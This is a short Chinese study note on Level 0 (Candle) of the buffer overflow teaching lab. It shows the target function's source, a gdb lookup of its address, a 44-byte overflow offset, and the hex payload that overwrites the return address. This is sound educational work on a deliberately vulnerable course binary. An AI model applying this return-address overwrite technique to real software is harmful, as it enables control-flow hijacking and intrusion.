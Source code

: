 #buffer lab学习笔记

这个lab的任务和attach_lab一样，也是要求通过栈溢出控制程序流程完成相应任务
## Level 0: Candle (10 pts)
令test函数调用完getbuf函数后执行smoke函数
smoke函数源代码
```
void smoke()
{
printf("Smoke!: You called smoke()\n");
validate(0);
exit(0);
}
```
使用gdb查看smoke函数的地址
```
pwndbg> p smoke
$1 = {<text variable, no debug info>} 0x8048c18 <smoke>
```
然后计算栈溢出偏移是44，能覆盖到eip
构建如下格式的十六进制字符完成题目要求
```
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
18 8c 04 08
```
![avatar](https://github.com/AmaIIl/attacklab/blob/gh-pages/image0.png)
